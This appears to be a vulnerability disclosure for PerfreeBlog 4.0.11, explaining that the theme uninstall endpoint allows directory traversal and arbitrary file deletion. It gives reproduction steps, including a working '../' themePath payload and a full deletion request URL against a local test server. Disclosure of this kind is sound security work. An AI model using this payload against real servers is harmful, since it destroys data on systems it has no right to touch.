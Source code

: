 # Arbitrary File Deletion Vulnerability in PerfreeBlog System

## Official Website
https://perfree.org.cn/

## Download Link
https://gitee.com/PerfreeBlog/PerfreeBlog


## Vulnerability Description
The PerfreeBlog system has an arbitrary file deletion vulnerability, which allows deleting any files on the server.


## Vulnerable Version
Latest version 4.0.11


## Vulnerability Principle
The relevant code details are as follows:
Code for uninstalling theme files
![](./img/2.png)
When entering the `unInstallTheme` function, it directly concatenates the `themePath` without proper validation. It only checks if the directory or file exists, allowing directory traversal using `../` to delete files.
![](./img/3.png)


## Vulnerability Reproduction
First, log in to the background and navigate to Theme Management.
![](./img/1.png)

Click uninstall and capture the packet.
![](./img/4.png)

Create a 1.txt file in the root directory.
![](./img/5.png)

Modify `themePath` to achieve arbitrary file deletion.

Set `themePath` as:
```
themePath=indigo/../../../../../../../1.txt
```

File deletion request:
```
http://127.0.0.1:8086/api/auth/theme/unInstallTheme?themePath=indigo/../../../../../../../1.txt
```


![](./img/6.png)

Deletion successful.
![](./img/7.png)

Any file on the server can be deleted.
